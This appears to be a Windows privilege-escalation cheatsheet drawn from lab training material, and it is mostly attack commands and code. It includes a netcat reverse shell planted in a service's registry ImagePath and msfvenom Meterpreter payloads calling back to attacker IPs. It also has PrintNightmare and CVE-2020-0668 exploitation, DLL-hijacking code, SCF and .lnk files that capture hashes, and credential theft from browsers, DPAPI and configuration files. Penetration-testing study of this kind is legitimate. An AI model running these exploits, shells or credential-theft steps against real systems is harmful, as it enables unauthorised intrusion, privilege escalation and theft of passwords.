The [UACME](https://github.com/hfiref0x/UACME) project maintains a list of UAC bypasses, including information on the affected Windows build number, the technique used, and if Microsoft has issued a security update to fix it. 

# Weak Permissions

## Permissive File System ACLs

### Running SharpUp

We can use [SharpUp](https://github.com/GhostPack/SharpUp/) from the GhostPack suite of tools to check for service binaries suffering from weak ACLs.

```powershell
PS C:\htb> .\SharpUp.exe audit

=== SharpUp: Running Privilege Escalation Checks ===


=== Modifiable Service Binaries ===

  Name             : SecurityService
  DisplayName      : PC Security Management Service
  Description      : Responsible for managing PC security
  State            : Stopped
  StartMode        : Auto
  PathName         : "C:\Program Files (x86)\PCProtect\SecurityService.exe"
  
  <SNIP>
  
```

### Checking Permissions with icacls

Using [icacls](https://ss64.com/nt/icacls.html) we can verify the vulnerability and see that the `EVERYONE` and `BUILTIN\Users` groups have been granted full permissions to the directory, and therefore any unprivileged system user can manipulate the directory and its contents.

```powershell
PS C:\htb> icacls "C:\Program Files (x86)\PCProtect\SecurityService.exe"

C:\Program Files (x86)\PCProtect\SecurityService.exe BUILTIN\Users:(I)(F)
                                                     Everyone:(I)(F)
                                                     NT AUTHORITY\SYSTEM:(I)(F)
                                                     BUILTIN\Administrators:(I)(F)
                                                     APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                                                     APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)

Successfully processed 1 files; Failed processing 0 files
```

### Replacing Service Binary

```cmd
C:\htb> cmd /c copy /Y SecurityService.exe "C:\Program Files (x86)\PCProtect\SecurityService.exe"
C:\htb> sc start SecurityService
```

### Checking Permissions with AccessChk

[AccessChk](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk) from the Sysinternals suite to enumerate permissions on the service. The flags we use, in order, are `-q` (omit banner), `-u` (suppress errors), `-v` (verbose), `-c` (specify name of a Windows service), and `-w` (show only objects that have write access).

```cmd
accesschk.exe /accepteula -quvcw WindscribeService
```

### Changing the Service Binary Path

```cmd
sc config WindscribeService binpath="cmd /c net localgroup administrators htb-student /add"
```

```cmd
sc stop WindscribeService
```

```cmd
sc start WindscribeService
```

## Weak Service Permissions - Cleanup

### Reverting the Binary Path

```cmd
C:\htb> sc config WindScribeService binpath="c:\Program Files (x86)\Windscribe\WindscribeService.exe"

[SC] ChangeServiceConfig SUCCESS
```

### Starting the Service Again

If all goes to plan, we can start the service again without an issue.

```cmd
C:\htb> sc start WindScribeService
 
SERVICE_NAME: WindScribeService
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
        PID                : 1716
        FLAGS              :
```

### Verifying Service is Running

Querying the service will show it running again as intended.

```cmd
sc query WindScribeService
```

## Unquoted Service Path

Searching for Unquoted Service Paths

```cmd
wmic service get name,displayname,pathname,startmode |findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """
```

## Permissive Registry ACLs

### Checking for Weak Service ACLs in Registry

```cmd
accesschk.exe /accepteula "mrb3n" -kvuqsw hklm\System\CurrentControlSet\services
```

### Changing ImagePath with PowerShell

```powershell
Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\ModelManagerService -Name "ImagePath" -Value "C:\Users\john\Downloads\nc.exe -e cmd.exe 10.10.10.205 443"
```

## Modifiable Registry Autorun Binary

### Check Startup Programs

We can use WMIC to see what programs run at system startup. Suppose we have write permissions to the registry for a given binary or can overwrite a binary listed. In that case, we may be able to escalate privileges to another user the next time that the user logs in.

```powershell
Get-CimInstance Win32_StartupCommand | select Name, command, Location, User |fl
```

# Kernel Exploits

## Notable Vulnerabilities

1. **MS08-067**
   - **Type:** Remote Code Execution
   - **Affected Systems:** Windows Server 2000, 2003, 2008; Windows XP, Vista
   - **Description:** Exploits RPC request handling in the "Server" service, allowing SYSTEM-level code execution. Often used with port forwarding to bypass firewall restrictions on port 445.
   - **Tools:** Standalone and Metasploit versions available.

2. **MS17-010 (EternalBlue)**
   - **Type:** Remote Code Execution
   - **Affected Systems:** SMBv1 protocol
   - **Description:** Exploits SMB protocol mishandling, leading to SYSTEM-level code execution. Can be used for local privilege escalation if port 445 is blocked.
   - **Tools:** Metasploit Framework and standalone scripts.

3. **ALPC Task Scheduler 0-Day**
   - **Type:** Local Privilege Escalation
   - **Description:** Uses ALPC endpoint method to manipulate DACLs in .job files, allowing SYSTEM-level access via the Spooler service.
https://blog.grimm-co.com/2020/05/alpc-task-scheduler-0-day.html

4. **CVE-2021-36934 (HiveNightmare/SeriousSam)**
   - **Type:** Local Privilege Escalation
   - **Affected Systems:** Windows 10
   - **Description:** Allows any user to read sensitive registry hives (SAM, SYSTEM, SECURITY) and extract password hashes.
   - **Tools:** [PoC exploit](https://github.com/GossiTheDog/HiveNightmare) and SecretsDump.py for offline processing.

Checking Permissions on the SAM File

```cmd
icacls c:\Windows\System32\config\SAM
```

```powershell
PS C:\Users\htb-student\Desktop> .\HiveNightmare.exe
```

```shell
impacket-secretsdump -sam SAM-2021-08-07 -system SYSTEM-2021-08-07 -security SECURITY-2021-08-07 local
```

5. **CVE-2021-1675/CVE-2021-34527 (PrintNightmare)**

- **Type:** Remote Code Execution
- **Affected Systems:** All supported Windows versions
- **Description:** Exploits a flaw in RpcAddPrinterDriver, allowing any authenticated user to install print drivers without SeLoadDriverPrivilege, leading to SYSTEM-level remote code execution.
- **Impact:** Affects Domain Controllers, Windows 7, 10, and often Windows servers due to the default running of the Print Spooler service.
- **Mitigation:** Microsoft released a second patch in July 2021; ensure specific registry settings are set to 0 or not defined.
- **Exploits:**
  - [PoC by @cube0x0](https://github.com/cube0x0/CVE-2021-1675) for executing malicious DLLs remotely or locally.
  - C# and PowerShell implementations available.
  - [PowerShell script](https://github.com/calebstewart/CVE-2021-1675) can add a local admin user or execute a custom DLL for a reverse shell.

Checking for Spooler Service

```powershell
PS C:\htb> ls \\localhost\pipe\spoolss


    Directory: \\localhost\pipe


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
                                                  spoolss
```

Adding Local Admin with PrintNightmare PowerShell PoC

```powershell
Set-ExecutionPolicy Bypass -Scope Process
```

```powershell
PS C:\htb> Import-Module .\CVE-2021-1675.ps1
PS C:\htb> Invoke-Nightmare -NewUser "hacker" -NewPassword "Pwnd1234!" -DriverName "PrintIt"
```

Confirming New Admin User

```powershell
net user hacker
```

## Examining Installed Updates

To identify missing patches, examine installed updates using the following commands:

```powershell
PS C:\htb> systeminfo
PS C:\htb> wmic qfe list brief
PS C:\htb> Get-Hotfix
```

Viewing Installed Updates with WMI

```shell
wmic qfe list brief
```

## Exploiting CVE-2020-0668

Checking Current User Privileges

```shell
whoami /priv
```

Building the Exploit

We can use [this](https://github.com/RedCursorSecurityConsulting/CVE-2020-0668) exploit for CVE-2020-0668, download it, and open it in Visual Studio within a VM. Building the solution should create the following files.

Compile the following files using Visual Studio:

- `CVE-2020-0668.exe`
- `CVE-2020-0668.exe.config`
- `CVE-2020-0668.pdb`
- `NtApiDotNet.dll`
- `NtApiDotNet.xml`

At this point, we can use the exploit to create a file of our choosing in a protected folder such as C:\Windows\System32. We aren't able to overwrite any protected Windows files. This privileged file write needs to be chained with another vulnerability, such as [UsoDllLoader](https://github.com/itm4n/UsoDllLoader) or [DiagHub](https://github.com/xct/diaghub) to load the DLL and escalate our privileges. However, the UsoDllLoader technique may not work if Windows Updates are pending or currently being installed, and the DiagHub service may not be available.

We can also look for any third-party software, which can be leveraged, such as the Mozilla Maintenance Service. This service runs in the context of SYSTEM and is startable by unprivileged users. The (non-system protected) binary for this service is located below.

- `C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe`

Checking Permissions on Binary

```shell
icacls "c:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"
```

Generating Malicious Binary

```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.14.3 LPORT=8443 -f exe > maintenanceservice.exe
```

Hosting the Malicious Binary

```bash
python3 -m http.server 8080
```

Downloading the Malicious Binary

```powershell
PS C:\htb> wget http://10.10.15.244:8080/maintenanceservice.exe -O maintenanceservice.exe
PS C:\htb> wget http://10.10.15.244:8080/maintenanceservice.exe -O maintenanceservice2.exe
```

> [!NOTE]
> For this step we need to make two copies of the malicious .exe file. We can just pull it over twice or do it once and make a second copy.
> 
> We need to do this because running the exploit corrupts the malicious version of `maintenanceservice.exe` that is moved to (our copy in `c:\Users\htb-student\Desktop` that we are targeting) `c:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe` which we will need to account for later. If we attempt to utilize the copied version, we will receive a `system error 216` because the .exe file is no longer a valid binary.

Running the Exploit

```shell
C:\Tools\CVE-2020-0668\CVE-2020-0668.exe C:\Users\htb-student\Desktop\maintenanceservice.exe "C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"
```

Checking Permissions of New File

```shell
icacls 'C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe'
```

Replacing File with Malicious Binary

```shell
copy /Y C:\Users\htb-student\Desktop\maintenanceservice2.exe "c:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"
```

## Metasploit Resource Script

Save the following commands to a file named `handler.rc`:

```plaintext
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_https
set LHOST <our_ip>
set LPORT 8443
exploit
```

Launching Metasploit with Resource Script

```bash
sudo msfconsole -r handler.rc
```

Starting the Service

```powershell
net start MozillaMaintenance
```

# Vulnerable Services

Enumerating Installed Programs

```cmd
wmic product get name
```

Search for vulnerable software versions.

Here's a more detailed hacking cheatsheet on DLL Injection, including commands, code examples, and tool links:

# DLL Injection

DLL Injection is a technique used to insert code into a running process by loading a Dynamic Link Library (DLL). This allows the injected code to execute within the context of the target process, potentially altering its behavior or accessing its resources. While it has legitimate uses, such as hot patching, it is also exploited by attackers to evade security measures.

## Methods

### LoadLibrary
- **Description**: Utilizes the `LoadLibrary` API to load a DLL into the target process's address space.
- **Legitimate Use Example**:
  ```c
  #include <windows.h>
  #include <stdio.h>

  int main() {
      HMODULE hModule = LoadLibrary("example.dll");
      if (hModule == NULL) {
          printf("Failed to load example.dll\n");
          return -1;
      }
      printf("Successfully loaded example.dll\n");
      return 0;
  }
  ```

### Manual Mapping
- **Description**: An advanced method that manually loads a DLL into a process's memory, resolving imports and relocations without using `LoadLibrary`.
- **Steps**:
  1. Load the DLL as raw data into the injecting process.
  2. Map the DLL sections into the target process.
  3. Inject shellcode to execute the DLL, handling relocations and imports manually.

### Reflective DLL Injection
- **Description**: Uses reflective programming to load a library from memory into a host process. The library implements a minimal PE loader.
- **GitHub Resource**: [Stephen Fewer's Reflective DLL Injection](https://github.com/stephenfewer/ReflectiveDLLInjection)
- **Process**:
  1. Write the library into the target process's address space.
  2. Transfer execution to the library's `ReflectiveLoader` function.
  3. The loader calculates its own memory location, resolves imports, and relocates the image.
  4. Calls the library's entry point function, `DllMain`.

### DLL Hijacking
- **Description**: Exploits the DLL search order to load malicious DLLs when an application doesn't specify the full path.
- **Safe DLL Search Mode**:
  - **Enable/Disable**:
    1. Open `Regedit`.
    2. Navigate to `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager`.
    3. Modify `SafeDllSearchMode` value (1 to enable, 0 to disable).
- **Tools**:
  - [Process Explorer](https://docs.microsoft.com/en-us/sysinternals/downloads/process-explorer): View running processes and loaded DLLs.
  - PE Explorer: Examine PE files and their imported DLLs.
- **Example Process**:
  1. Identify a DLL the target application is attempting to load but cannot find.
  2. Use tools like Process Explorer to monitor DLL loading activities.
  3. Create a malicious DLL with the same name as the missing one.
  4. Place the malicious DLL in a directory that is searched before the legitimate one.

- **Code Example for Proxying**:
  ```c
  // tamper.c
  #include <stdio.h>
  #include <Windows.h>

  #ifdef _WIN32
  #define DLL_EXPORT __declspec(dllexport)
  #else
  #define DLL_EXPORT
  #endif

  typedef int (*AddFunc)(int, int);

  DLL_EXPORT int Add(int a, int b) {
      HMODULE originalLibrary = LoadLibraryA("library.o.dll");
      if (originalLibrary != NULL) {
          AddFunc originalAdd = (AddFunc)GetProcAddress(originalLibrary, "Add");
          if (originalAdd != NULL) {
              printf("============ HIJACKED ============\n");
              int result = originalAdd(a, b);
              printf("= Adding 1 to the sum to be evil\n");
              result += 1;
              printf("============ RETURN ============\n");
              return result;
          }
      }
      return -1;
  }
  ```

- **Invalid Libraries**:
  - **Description**: Replace a valid library the program is attempting to load but cannot find with a crafted library.
  - **Code Example**:
    ```c
    #include <stdio.h>
    #include <Windows.h>

    BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved) {
        switch (ul_reason_for_call) {
        case DLL_PROCESS_ATTACH:
            printf("Hijacked... Oops...\n");
            break;
        case DLL_PROCESS_DETACH:
        case DLL_THREAD_ATTACH:
        case DLL_THREAD_DETACH:
            break;
        }
        return TRUE;
    }
    ```

## Tools and Resources
- **Process Explorer**: Part of Microsoft's Sysinternals suite, provides detailed information on running processes and their loaded DLLs.
- **PE Explorer**: A tool to open and examine PE files, revealing imported DLLs and functions.
- **Procmon (Process Monitor)**: Useful for tracking DLL loading and identifying missing DLLs.

# Credential Hunting

Credentials are crucial for privilege escalation and gaining access to systems. They can be found in various locations on a system, often stored insecurely.

## Application Configuration Files

- **Search for Passwords in Config Files**: Applications may store passwords in cleartext within configuration files. Use `findstr` to locate these files.
  ```powershell
  findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml
  ```
  - **Sensitive IIS Information**: Check `web.config` files for credentials, typically found at `C:\inetpub\wwwroot\web.config`.

## Dictionary Files

- **Chrome Dictionary Files**: Users may add passwords to dictionary files to avoid spellcheck underlines.
  ```powershell
gc 'C:\Users\htb-student\AppData\Local\Google\Chrome\User Data\Default\Custom Dictionary.txt' | Select-String password
  ```

## Unattended Installation Files

- **Unattend.xml**: These files may contain plaintext or base64 encoded passwords.

```cmd
dir Windows\Panther\unattend.xml
```

  ```xml
  <AutoLogon>
      <Password>
          <Value>local_4dmin_p@ss</Value>
          <PlainText>true</PlainText>
      </Password>
  </AutoLogon>
  ```

## PowerShell History File

- **Location**: `C:\Users\<username>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt`.
- **Read PowerShell History**:
  ```powershell
gc (Get-PSReadLineOption).HistorySavePath
  ```
- **Retrieve All Accessible History Files**:
  ```powershell
foreach($user in ((ls C:\users).fullname)){cat "$user\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt" -ErrorAction SilentlyContinue}
  ```

## PowerShell Credentials

- **Decrypting PowerShell Credentials**: Credentials stored using DPAPI can be decrypted if executed in the same user context.
  ```powershell
$credential = Import-Clixml -Path 'C:\scripts\pass.xml'
$credential.GetNetworkCredential().username
$credential.GetNetworkCredential().password
  ```
# Other Files

## Tools and Resources
- **Snaffler**: Use [Snaffler](https://github.com/SnaffCon/Snaffler) to crawl network share drives for interesting file extensions like `.kdbx`, `.vmdk`, `.vdhx`, `.ppk`, etc.

## Manually Searching the File System for Credentials

We can search the file system or share drive(s) manually using the following commands from [this cheatsheet](https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/windows-privilege-escalation/).
### Search File Contents for Strings

- **Example 1**:
  ```cmd
  cd c:\Users\htb-student\Documents & findstr /SI /M "password" *.xml *.ini *.txt
  ```

- **Example 2**:
  ```cmd
  findstr /si password *.xml *.ini *.txt *.config
  ```

- **Example 3**:
  ```cmd
  findstr /spin "password" *.*
  ```

- **Using PowerShell**:
  ```powershell
select-string -Path C:\Users\htb-student\Documents\*.txt -Pattern password
  ```

### Search for File Extensions

- **Example 1**:
  ```cmd
  dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*
  ```

- **Example 2**:
  ```cmd
  where /R C:\ *.config
  ```

- **Using PowerShell**:
  ```powershell
Get-ChildItem C:\ -Recurse -Include *.rdp, *.config, *.vnc, *.cred -ErrorAction Ignore
  ```

## Sticky Notes Passwords

- **Location**: `C:\Users\<user>\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite`
- **Viewing Sticky Notes Data**:
  - Use [DB Browser for SQLite](https://sqlitebrowser.org/dl/) to view the `Text` column in the `Note` table.
  - **Using PowerShell** with [PSSQLite module](https://github.com/RamblingCookieMonster/PSSQLite):
    ```powershell
  Set-ExecutionPolicy Bypass -Scope Process
  Import-Module .\PSSQLite.psd1
  $db = 'C:\Users\htb-student\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite'
  Invoke-SqliteQuery -Database $db -Query "SELECT Text FROM Note" | ft -wrap
    ```

- **Using `strings` Command**:
  ```shell
  fango@htb[/htb]$ strings plum.sqlite-wal
  ```

## Other Files of Interest

- **Potential Credential Files**:
  ```shell
  %SYSTEMDRIVE%\pagefile.sys
  %WINDIR%\debug\NetSetup.log
  %WINDIR%\repair\sam
  %WINDIR%\repair\system
  %WINDIR%\repair\software, %WINDIR%\repair\security
  %WINDIR%\iis6.log
  %WINDIR%\system32\config\AppEvent.Evt
  %WINDIR%\system32\config\SecEvent.Evt
  %WINDIR%\system32\config\default.sav
  %WINDIR%\system32\config\security.sav
  %WINDIR%\system32\config\software.sav
  %WINDIR%\system32\config\system.sav
  %WINDIR%\system32\CCM\logs\*.log
  %USERPROFILE%\ntuser.dat
  %USERPROFILE%\LocalS~1\Tempor~1\Content.IE5\index.dat
  %WINDIR%\System32\drivers\etc\hosts
  C:\ProgramData\Configs\*
  C:\Program Files\Windows PowerShell\*
  ```

Understanding how to manually search for these files is crucial, as automated scripts may not cover all potential files of interest.

# Further Credential Theft

## Cmdkey Saved Credentials

- **Description**: Use `cmdkey` to manage stored credentials for remote connections.
- **Commands**:
  - List saved credentials: `cmdkey /list`
  - Run commands as another user: `runas /savecred /user:username "COMMAND HERE"`
- **Tools**: [cmdkey](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/cmdkey)

## Browser Credentials

- **Description**: Retrieve saved credentials from Google Chrome using SharpChrome.
- **Commands**:
  - Retrieve Chrome logins: `.\SharpChrome.exe logins /unprotect`
- **Tools**: [SharpChrome](https://github.com/GhostPack/SharpDPAPI)

## Password Managers

- **Description**: Access password managers like KeePass to extract and crack password hashes.
- **Commands**:
  - Extract KeePass hash: `python2.7 keepass2john.py file.kdbx`
  - Crack hash with Hashcat: `hashcat -m 13400 hashfile wordlist`
- **Tools**: [keepass2john](https://gist.github.com/HarmJ0y), [Hashcat](https://github.com/hashcat), [John the Ripper](https://github.com/openwall/john)

## Email

- **Description**: Search emails for credentials using MailSniper.
- **Tools**: [MailSniper](https://github.com/dafthack/MailSniper)

## More Fun with Credentials

- **Description**: Use LaZagne to retrieve credentials from various software.
- **Commands**:
  - View help menu: `.\lazagne.exe -h`
  - Run all modules: `.\lazagne.exe all`
- **Tools**: [LaZagne](https://github.com/AlessandroZ/LaZagne)

## Even More Fun with Credentials

- **Description**: Extract saved session credentials using SessionGopher.
- **Commands**:
  - Run SessionGopher: `Invoke-SessionGopher -Target TARGET`
- **Tools**: [SessionGopher](https://github.com/Arvanaghi/SessionGopher)

## Clear-Text Password Storage in the Registry

- **Description**: Enumerate registry for clear-text passwords.
- **Commands**:
  - Enumerate Autologon: `reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"`
  - Enumerate PuTTY sessions: `reg query HKEY_CURRENT_USER\SOFTWARE\SimonTatham\PuTTY\Sessions`
- **Tools**: [Introduction to Windows Command Line](https://academy.hackthebox.com/module/167/section/1623)

## Wifi Passwords

- **Description**: Retrieve saved wireless network passwords.
- **Commands**:
  - List wireless profiles: `netsh wlan show profile`
  - Show wireless key: `netsh wlan show profile network_name key=clear`

# Citrix Breakout

## Overview
Organizations use virtualization platforms like Citrix to provide remote access while implementing "lock-down" measures to enhance security. Despite these restrictions, threat actors can potentially "break-out" of these environments.

## Basic Methodology for Break-out
1. Gain access to a `Dialog Box`.
2. Exploit the Dialog Box for `command execution`.
3. `Escalate privileges` for higher access.

## Bypassing Path Restrictions
- **Objective**: Access restricted directories.
- **Method**: Use Windows dialog boxes (e.g., from MS Paint) to enter paths directly.
- **Example**: Enter `\\127.0.0.1\c$\users\pmorgan` in the dialog box to access directories.
- **Tools**: MS Paint, Notepad, Wordpad.

## Accessing SMB Share from Restricted Environment
- **Objective**: Transfer files despite restrictions.
- **Method**: Use UNC paths in dialog boxes to access SMB shares.
- **Command**: Start SMB server with `smbserver.py`.
- **Example**: Access share with `\\10.13.38.95\share` in Paint's dialog box.

## Alternate Explorer
- **Objective**: Bypass File Explorer restrictions.
- **Tools**: Use `Q-Dir` or `Explorer++` to navigate restricted directories.
- **Link**: [Explorer++](https://explorerplusplus.com/)

## Alternate Registry Editors
- **Objective**: Edit registry despite restrictions.
- **Tools**: Use alternative editors like [Simpleregedit](https://sourceforge.net/projects/simpregedit/), [Uberregedit](https://sourceforge.net/projects/uberregedit/), [SmallRegistryEditor](https://sourceforge.net/projects/sre/).

## Modify Existing Shortcut File
- **Objective**: Gain access by modifying shortcuts.
- **Steps**:
  1. Right-click shortcut, select `Properties`.
  2. Modify `Target` field to desired executable.
  3. Execute shortcut to spawn cmd.

## Script Execution
- **Objective**: Execute scripts to bypass restrictions.
- **Method**: Create and run scripts like `.bat` files.
- **Example**: Create `evil.bat` with `cmd` command to open Command Prompt.

## Escalating Privileges
- **Objective**: Identify and exploit system vulnerabilities.
- **Tools**: Use [Winpeas](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS), [PowerUp](https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerUp/PowerUp.ps1).
- **Example**: Use `PowerUp.ps1` to create `UserAdd.msi` for privilege escalation.

## Bypassing UAC
- **Objective**: Overcome User Account Control restrictions.
- **Method**: Use UAC bypass scripts.
- **Example**: Import and execute `Bypass-UAC.ps1` with `Bypass-UAC -Method UacMethodSysprep`.

# Interacting with Users

## Overview
Users can be a weak link in security. Techniques to exploit this include capturing credentials through network sniffing or placing malicious files on shared drives to capture user password hashes.

## Traffic Capture
- **Objective**: Capture network traffic to obtain credentials.
- **Tools**: `Wireshark`, `tcpdump`, [net-creds](https://github.com/DanMcInerney/net-creds).
- **Example**: Capture cleartext FTP credentials using Wireshark.
- **Command**: Run `tcpdump` or `Wireshark` to monitor traffic.

## Process Command Lines
- **Objective**: Monitor command lines for credentials.
- **Script**: Capture process command lines every two seconds and compare for differences.
- **Example**: Use PowerShell script to reveal passwords passed in command lines.

```powershell
while($true) {
  $process = Get-WmiObject Win32_Process | Select-Object CommandLine
  Start-Sleep 1
  $process2 = Get-WmiObject Win32_Process | Select-Object CommandLine
  Compare-Object -ReferenceObject $process -DifferenceObject $process2
}
```

## Vulnerable Services
- **Objective**: Exploit vulnerable applications for privilege escalation.
- **Example**: [CVE-2019–15752](https://medium.com/@morgan.henry.roman/elevation-of-privilege-in-docker-for-windows-2fd8450b478e) in Docker Desktop allows writing malicious executables for privilege escalation.

## SCF on a File Share
- **Objective**: Capture NTLMv2 password hashes using SCF files.
- **Tools**: [Responder](https://github.com/lgandx/Responder), [Inveigh](https://github.com/Kevin-Robertson/Inveigh).
- **Example**: Create a malicious SCF file to capture hashes when accessed.

```shell
[Shell]
Command=2
IconFile=\\10.10.14.3\share\legit.ico
[Taskbar]
Command=ToggleDesktop
```

- **Command**: Start Responder to capture hashes.

```shell
sudo responder -wrf -v -I tun0
```

## Capturing Hashes with a Malicious .lnk File
- **Objective**: Use .lnk files to capture hashes on Server 2019.
- **Tools**: [Lnkbomb](https://github.com/dievus/lnkbomb).
- **Example**: Generate a malicious .lnk file using PowerShell.

```powershell
$objShell = New-Object -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut("C:\legit.lnk")
$lnk.TargetPath = "\\<attackerIP>\@pwn.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Browsing to the directory where this file is saved will trigger an auth request."
$lnk.HotKey = "Ctrl+Alt+O"
$lnk.Save()
```

# Miscellaneous Techniques
## Living Off The Land Binaries and Scripts (LOLBAS)
- **LOLBAS Project**: Utilizes Microsoft-signed binaries, scripts, and libraries for unexpected functionalities like code execution, file transfers, and UAC bypass.
- **Certutil.exe**: 
  - **File Transfer**: `certutil.exe -urlcache -split -f http://10.10.14.3:8080/shell.bat shell.bat`
  - **Encoding**: `certutil -encode file1 encodedfile`
  - **Decoding**: `certutil -decode encodedfile file2`
- **Rundll32.exe**: Executes DLL files, potentially for reverse shells.

## Always Install Elevated
- **Policy Setting**: Enables installation with elevated privileges via Local Group Policy.
- **Enumeration**: 
  - `reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer`
  - `reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer`
- **Exploitation**: Create a malicious MSI package with `msfvenom` and execute it to gain SYSTEM privileges.
  - **Command**: `msiexec /i c:\users\htb-student\desktop\aie.msi /quiet /qn /norestart`
  - **Listener**: `nc -lnvp 9443`

## CVE-2019-1388
- **Vulnerability**: Exploits Windows Certificate Dialog to run a browser as SYSTEM.
- **Exploitation Steps**:
  - Run `hhupd.exe` as administrator.
  - Click on certificate hyperlink to open a browser as SYSTEM.
  - Use `View page source` to launch `cmd.exe` as SYSTEM.

## Scheduled Tasks
- **Enumeration**: 
  - `schtasks /query /fo LIST /v`
  - `Get-ScheduledTask | select TaskName,State`
- **Exploitation**: Look for writable directories like `C:\Scripts` to modify scripts executed by scheduled tasks.

## User/Computer Description Field
- **Local User Enumeration**: `Get-LocalUser`
- **Computer Description**: `Get-WmiObject -Class Win32_OperatingSystem | select Description`

## Mount VHDX/VMDK
- **File Types**: `.vhd`, `.vhdx`, `.vmdk` for virtual hard disks.
- **Mounting on Linux**:
  - VMDK: `guestmount -a SQL01-disk1.vmdk -i --ro /mnt/vmdk`
  - VHD/VHDX: `guestmount --add WEBSRV10.vhdx --ro /mnt/vhdx/ -m /dev/sda1`
- **Windows Mounting**: Use right-click options or PowerShell cmdlet `Mount-VHD`.
- **Hash Retrieval**: Use `secretsdump.py` to extract password hashes from registry hives.

# Windows Server

For an older OS like Windows Server 2008, we can use an enumeration script like [Sherlock](https://github.com/rasta-mouse/Sherlock) to look for missing patches. We can also use something like [Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester), which takes the results of the `systeminfo` command as an input, and compares the patch level of the host against the Microsoft vulnerability database to detect potential missing patches on the target. If an exploit exists in the Metasploit framework for the given missing patch, the tool will suggest it. Other enumeration scripts can assist us with this, or we can even enumerate the patch level manually and perform our own research. This may be necessary if there are limitations in loading tools on the target host or saving command output.

## Enumeration and Exploitation

### Querying Current Patch Level
- **WMI Command**: `wmic qfe` to list installed hotfixes and identify missing patches.

### Running Sherlock
- **Sherlock Script**: Used to identify missing patches and vulnerabilities.
  - **Command**: 
    ```powershell
    Set-ExecutionPolicy bypass -Scope process
    Import-Module .\Sherlock.ps1
    Find-AllVulns
    ```

## Obtaining a Meterpreter Shell
- **Metasploit smb_delivery Module**: Used to deliver a Meterpreter reverse shell.
  - **Setup**:
    ```shell
    use exploit/windows/smb/smb_delivery
    set SRVHOST 10.10.14.3
    set LHOST 10.10.14.3
    set LPORT 4444
    exploit
    ```
  - **Execution on Target**: `rundll32.exe \\10.10.14.3\lEUZam\test.dll,0`

## Privilege Escalation
- **MS10-092 Exploit**: Use the Task Scheduler XML Privilege Escalation vulnerability.
  - **Setup**:
    ```shell
    use exploit/windows/local/ms10_092_schelevator
    set SESSION 1
    set LHOST 10.10.14.3
    set LPORT 4443
    exploit
    ```
  - **Migration to 64-bit Process**: Ensure the Meterpreter session is running in a 64-bit process for compatibility.

### Receiving Elevated Reverse Shell
- **Successful Exploit**: Results in a Meterpreter session with `NT AUTHORITY\SYSTEM` privileges, allowing for further post-exploitation activities.

# Windows Desktop

## Enumeration and Exploitation

### Install Python Dependencies (Local VM)
- **Dependencies for Windows-Exploit-Suggester**:
  ```shell
  sudo wget https://files.pythonhosted.org/packages/28/84/27df240f3f8f52511965979aad7c7b77606f8fe41d4c90f2449e02172bb1/setuptools-2.0.tar.gz
  sudo tar -xf setuptools-2.0.tar.gz
  cd setuptools-2.0/
  sudo python2.7 setup.py install

  sudo wget https://files.pythonhosted.org/packages/42/85/25caf967c2d496067489e0bb32df069a8361e1fd96a7e9f35408e56b3aab/xlrd-1.0.0.tar.gz
  sudo tar -xf xlrd-1.0.0.tar.gz
  cd xlrd-1.0.0/
  sudo python2.7 setup.py install
  ```

### Gathering Systeminfo Command Output
- **Command**: `systeminfo` to capture system details for analysis.

### Updating the Local Microsoft Vulnerability Database
- **Command**: `sudo python2.7 windows-exploit-suggester.py --update` to update the vulnerability database.

### Running Windows Exploit Suggester
- **Command**: 
  ```shell
  python2.7 windows-exploit-suggester.py --database 2021-05-13-mssb.xls --systeminfo win7lpe-systeminfo.txt
  ```
  - Identifies potential privilege escalation vulnerabilities.

### Exploiting MS16-032 with PowerShell PoC
- **PowerShell Exploit**: Use a PowerShell script to exploit MS16-032 for privilege escalation.
  - **Commands**:
    ```powershell
    Set-ExecutionPolicy bypass -scope process
    Import-Module .\Invoke-MS16-032.ps1
    Invoke-MS16-032
    ```

### Spawning a SYSTEM Console
- **Result**: Successful exploitation results in a SYSTEM-level command prompt.
